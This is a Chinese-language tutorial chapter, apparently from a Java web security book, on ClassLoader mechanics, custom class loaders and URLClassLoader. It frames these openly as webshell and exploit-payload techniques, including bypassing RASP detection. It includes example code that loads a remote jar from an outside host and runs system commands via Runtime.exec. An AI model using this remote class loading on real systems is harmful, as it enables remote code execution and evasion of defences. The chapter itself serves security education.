

# ClassLoader(类加载机制)

Java是一个依赖于`JVM`(Java虚拟机)实现的跨平台的开发语言。Java程序在运行前需要先编译成`class文件`，Java类初始化的时候会调用`java.lang.ClassLoader`加载类字节码，`ClassLoader`会调用JVM的native方法(`defineClass0/1/2`)来定义一个`java.lang.Class`实例。

**JVM架构图：**


## Java类

Java是编译型语言，我们编写的java文件需要编译成后class文件后才能够被JVM运行，学习`ClassLoader`之前我们先简单了解下Java类。

**示例TestHelloWorld.java：**

```java
package com.anbai.sec.classloader;

/**
 * Creator: yz
 * Date: 2019/12/17
 */
public class TestHelloWorld {

	public String hello() {
		return "Hello World~";
	}

}
```

编译`TestHelloWorld.java`：`javac TestHelloWorld.java`

我们可以通过JDK自带的`javap`命令反汇编`TestHelloWorld.class`文件对应的`com.anbai.sec.classloader.TestHelloWorld`类，以及使用Linux自带的`hexdump`命令查看`TestHelloWorld.class`文件二进制内容：



JVM在执行`TestHelloWorld`之前会先解析class二进制内容，JVM执行的其实就是如上`javap`命令生成的字节码(`ByteCode`)。

## ClassLoader

一切的Java类都必须经过JVM加载后才能运行，而`ClassLoader`的主要作用就是Java类文件的加载。在JVM类加载器中最顶层的是`Bootstrap ClassLoader(引导类加载器)`、`Extension ClassLoader(扩展类加载器)`、`App ClassLoader(系统类加载器)`，`AppClassLoader`是默认的类加载器，如果类加载时我们不指定类加载器的情况下，默认会使用`AppClassLoader`加载类，`ClassLoader.getSystemClassLoader()`返回的系统类加载器也是`AppClassLoader`。

值得注意的是某些时候我们获取一个类的类加载器时候可能会返回一个`null`值，如:`java.io.File.class.getClassLoader()`将返回一个`null`对象，因为`java.io.File`类在JVM初始化的时候会被`Bootstrap ClassLoader(引导类加载器)`加载(该类加载器实现于JVM层，采用C++编写)，我们在尝试获取被`Bootstrap ClassLoader`类加载器所加载的类的`ClassLoader`时候都会返回`null`。

`ClassLoader`类有如下核心方法：

1. `loadClass`(加载指定的Java类)
2. `findClass`(查找指定的Java类)
3. `findLoadedClass`(查找JVM已经加载过的类)
4. `defineClass`(定义一个Java类)
5. `resolveClass`(链接指定的Java类)

## Java类动态加载方式

Java类加载方式分为`显式`和`隐式`,`显式`即我们通常使用`Java反射`或者`ClassLoader`来动态加载一个类对象，而`隐式`指的是`类名.方法名()`或`new `类实例。`显式`类加载方式也可以理解为类动态加载，我们可以自定义类加载器去加载任意的类。

**常用的类动态加载方式：**

```java
// 反射加载TestHelloWorld示例
Class.forName("com.anbai.sec.classloader.TestHelloWorld");

// ClassLoader加载TestHelloWorld示例
this.getClass().getClassLoader().loadClass("com.anbai.sec.classloader.TestHelloWorld");
```

`Class.forName("类名")`默认会初始化被加载类的静态属性和方法，如果不希望初始化类可以使用`Class.forName("类名", 是否初始化类, 类加载器)`，而`ClassLoader.loadClass`默认不会初始化类方法。

## ClassLoader类加载流程

理解Java类加载机制并非易事，这里我们以一个Java的HelloWorld来学习`ClassLoader`。

`ClassLoader`加载`com.anbai.sec.classloader.TestHelloWorld`类重要流程如下：

1. `ClassLoader`会调用`public Class<?> loadClass(String name)`方法加载`com.anbai.sec.classloader.TestHelloWorld`类。
2. 调用`findLoadedClass`方法检查`TestHelloWorld`类是否已经初始化，如果JVM已初始化过该类则直接返回类对象。
3. 如果创建当前`ClassLoader`时传入了父类加载器(`new ClassLoader(父类加载器)`)就使用父类加载器加载`TestHelloWorld`类，否则使用JVM的`Bootstrap ClassLoader`加载。
4. 如果上一步无法加载`TestHelloWorld`类，那么调用自身的`findClass`方法尝试加载`TestHelloWorld`类。
5. 如果当前的`ClassLoader`没有重写了`findClass`方法，那么直接返回类加载失败异常。如果当前类重写了`findClass`方法并通过传入的`com.anbai.sec.classloader.TestHelloWorld`类名找到了对应的类字节码，那么应该调用`defineClass`方法去JVM中注册该类。
6. 如果调用loadClass的时候传入的`resolve`参数为true，那么还需要调用`resolveClass`方法链接类,默认为false。
7. 返回一个被JVM加载后的`java.lang.Class`类对象。

## 自定义ClassLoader

`java.lang.ClassLoader`是所有的类加载器的父类，`java.lang.ClassLoader`有非常多的子类加载器，比如我们用于加载jar包的`java.net.URLClassLoader`其本身通过继承`java.lang.ClassLoader`类，重写了`findClass`方法从而实现了加载目录class文件甚至是远程资源文件。

既然已知ClassLoader具备了加载类的能力，那么我们不妨尝试下写一个自己的类加载器来实现加载自定义的字节码(这里以加载`TestHelloWorld`类为例)并调用`hello`方法。

如果`com.anbai.sec.classloader.TestHelloWorld`类存在的情况下，我们可以使用如下代码即可实现调用`hello`方法并输出：

```java
TestHelloWorld t = new TestHelloWorld();
String str = t.hello();
System.out.println(str);
```

但是如果`com.anbai.sec.classloader.TestHelloWorld`根本就不存在于我们的`classpath`，那么我们可以使用自定义类加载器重写`findClass`方法，然后在调用`defineClass`方法的时候传入`TestHelloWorld`类的字节码的方式来向JVM中定义一个`TestHelloWorld`类，最后通过反射机制就可以调用`TestHelloWorld`类的`hello`方法了。

**TestClassLoader示例代码：**

```java
package com.anbai.sec.classloader;

import java.lang.reflect.Method;

/**
 * Creator: yz
 * Date: 2019/12/17
 */
public class TestClassLoader extends ClassLoader {

	// TestHelloWorld类名
	private static String testClassName = "com.anbai.sec.classloader.TestHelloWorld";

	// TestHelloWorld类字节码
	private static byte[] testClassBytes = new byte[]{
			-54, -2, -70, -66, 0, 0, 0, 51, 0, 17, 10, 0, 4, 0, 13, 8, 0, 14, 7, 0, 15, 7, 0,
			16, 1, 0, 6, 60, 105, 110, 105, 116, 62, 1, 0, 3, 40, 41, 86, 1, 0, 4, 67, 111, 100,
			101, 1, 0, 15, 76, 105, 110, 101, 78, 117, 109, 98, 101, 114, 84, 97, 98, 108, 101,
			1, 0, 5, 104, 101, 108, 108, 111, 1, 0, 20, 40, 41, 76, 106, 97, 118, 97, 47, 108,
			97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 10, 83, 111, 117, 114, 99,
			101, 70, 105, 108, 101, 1, 0, 19, 84, 101, 115, 116, 72, 101, 108, 108, 111, 87, 111,
			114, 108, 100, 46, 106, 97, 118, 97, 12, 0, 5, 0, 6, 1, 0, 12, 72, 101, 108, 108, 111,
			32, 87, 111, 114, 108, 100, 126, 1, 0, 40, 99, 111, 109, 47, 97, 110, 98, 97, 105, 47,
			115, 101, 99, 47, 99, 108, 97, 115, 115, 108, 111, 97, 100, 101, 114, 47, 84, 101, 115,
			116, 72, 101, 108, 108, 111, 87, 111, 114, 108, 100, 1, 0, 16, 106, 97, 118, 97, 47, 108,
			97, 110, 103, 47, 79, 98, 106, 101, 99, 116, 0, 33, 0, 3, 0, 4, 0, 0, 0, 0, 0, 2, 0, 1,
			0, 5, 0, 6, 0, 1, 0, 7, 0, 0, 0, 29, 0, 1, 0, 1, 0, 0, 0, 5, 42, -73, 0, 1, -79, 0, 0, 0,
			1, 0, 8, 0, 0, 0, 6, 0, 1, 0, 0, 0, 7, 0, 1, 0, 9, 0, 10, 0, 1, 0, 7, 0, 0, 0, 27, 0, 1,
			0, 1, 0, 0, 0, 3, 18, 2, -80, 0, 0, 0, 1, 0, 8, 0, 0, 0, 6, 0, 1, 0, 0, 0, 10, 0, 1, 0, 11,
			0, 0, 0, 2, 0, 12
	};

	@Override
	public Class<?> findClass(String name) throws ClassNotFoundException {
		// 只处理TestHelloWorld类
		if (name.equals(testClassName)) {
			// 调用JVM的native方法定义TestHelloWorld类
			return defineClass(testClassName, testClassBytes, 0, testClassBytes.length);
		}

		return super.findClass(name);
	}

	public static void main(String[] args) {
		// 创建自定义的类加载器
		TestClassLoader loader = new TestClassLoader();

		try {
			// 使用自定义的类加载器加载TestHelloWorld类
			Class testClass = loader.loadClass(testClassName);

			// 反射创建TestHelloWorld类，等价于 TestHelloWorld t = new TestHelloWorld();
			Object testInstance = testClass.newInstance();

			// 反射获取hello方法
			Method method = testInstance.getClass().getMethod("hello");

			// 反射调用hello方法,等价于 String str = t.hello();
			String str = (String) method.invoke(testInstance);

			System.out.println(str);
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

}
```

利用自定义类加载器我们可以在webshell中实现加载并调用自己编译的类对象，比如本地命令执行漏洞调用自定义类字节码的native方法绕过RASP检测，也可以用于加密重要的Java类字节码(只能算弱加密了)。

## URLClassLoader

`URLClassLoader`继承了`ClassLoader`，`URLClassLoader`提供了加载远程资源的能力，在写漏洞利用的`payload`或者`webshell`的时候我们可以使用这个特性来加载远程的jar来实现远程的类方法调用。

**TestURLClassLoader.java示例：**

```java
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.net.URL;
import java.net.URLClassLoader;

/**
 * Creator: yz
 * Date: 2019/12/18
 */
public class TestURLClassLoader {

	public static void main(String[] args) {
		try {
			// 定义远程加载的jar路径
			URL url = new URL("https://javaweb.org/tools/cmd.jar");

			// 创建URLClassLoader对象，并加载远程jar包
			URLClassLoader ucl = new URLClassLoader(new URL[]{url});

			// 定义需要执行的系统命令
			String cmd = "ls";

			// 通过URLClassLoader加载远程jar包中的CMD类
			Class cmdClass = ucl.loadClass("CMD");

			// 调用CMD类中的exec方法，等价于: Process process = CMD.exec("whoami");
			Process process = (Process) cmdClass.getMethod("exec", String.class).invoke(null, cmd);

			// 获取命令执行结果的输入流
			InputStream           in   = process.getInputStream();
			ByteArrayOutputStream baos = new ByteArrayOutputStream();
			byte[]                b    = new byte[1024];
			int                   a    = -1;

			// 读取命令执行结果
			while ((a = in.read(b)) != -1) {
				baos.write(b, 0, a);
			}

			// 输出命令执行结果
			System.out.println(baos.toString());
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

}
```

远程的`cmd.jar`中就一个`CMD.class`文件，对应的编译之前的代码片段如下：

```cmd
import java.io.IOException;

/**
 * Creator: yz
 * Date: 2019/12/18
 */
public class CMD {

	public static Process exec(String cmd) throws IOException {
		return Runtime.getRuntime().exec(cmd);
	}

}
```

程序执行结果如下：

```java
README.md
gitbook
javaweb-sec-source
javaweb-sec.iml
jni
pom.xml
```

## ClassLoader总结

`ClassLoader`是JVM中一个非常重要的组成部分，`ClassLoader`可以为我们加载任意的java类，通过自定义`ClassLoader`更能够实现自定义类加载行为，在后面的几个章节我们也将讲解`ClassLoader`的实际利用场景。